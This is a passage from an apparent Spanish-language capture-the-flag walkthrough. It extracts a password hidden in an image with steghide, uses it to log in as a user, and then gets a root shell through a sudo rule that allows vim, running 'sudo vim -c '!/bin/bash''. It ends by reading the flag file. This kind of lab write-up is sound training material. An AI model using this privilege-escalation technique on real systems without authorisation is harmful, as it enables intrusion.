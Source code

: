 ```shell
steghide extract -sf profile_picture.jpeg
```

El contenido del .txt resultó ser el texto **mag1ck**:

```shell
cat secret.txt
mag1ck
```

Verificamos si es la contraseña para el usuario **valentina** a la vez que intentamos ver si tiene asignados permisos a nivel de sudoers.

```shell
valentina@34e0296f5c5d:~$ sudo -l
[sudo] password for valentina: mag1ck
User valentina may run the following commands on 34e0296f5c5d:
    (ALL : ALL) PASSWD: ALL, NOPASSWD: /usr/bin/vim
```

Podemos usar **vim** como el usuario **root**. La escalada de privilegios al usuario root se puede lograr con el siguiente comando:

```shell
valentina@34e0296f5c5d:~$ sudo vim -c '!/bin/bash'
root@34e0296f5c5d:/home/valentina# whoami
root
```

Finalmente, obtenemos la flag. 😈

```shell
root@34e0296f5c5d:~# cat /root/fl4g.txt 

     |\     ____
     \ \.-./ .-' T
      \ _  _( /| | |\
    ) | .)(./ |  |  |
      |   \(   \_|_/
  (   |     \    |
 )    |  \VvV    | (
      |  |\,,\   | 
    ) |  | ^^^   |    )
   (  |  |__     |   (
 )   /      `-. _|    )
(   /          /  `\
   /          ///_ |
  /jgs       (((-|'

  _, _, ,  ,  _,  ,_  _  ___,_,
 /  / \,|\ | / _  |_)'|\' | (_,
'\_'\_/ |'\|'\_|`'| \ |-\ |  _)
   `'   '  `  _|  '  `'  `' '  
             '                 

Instagram: @purpl3_mag1ck
TikTok: @purple_mag1ck
```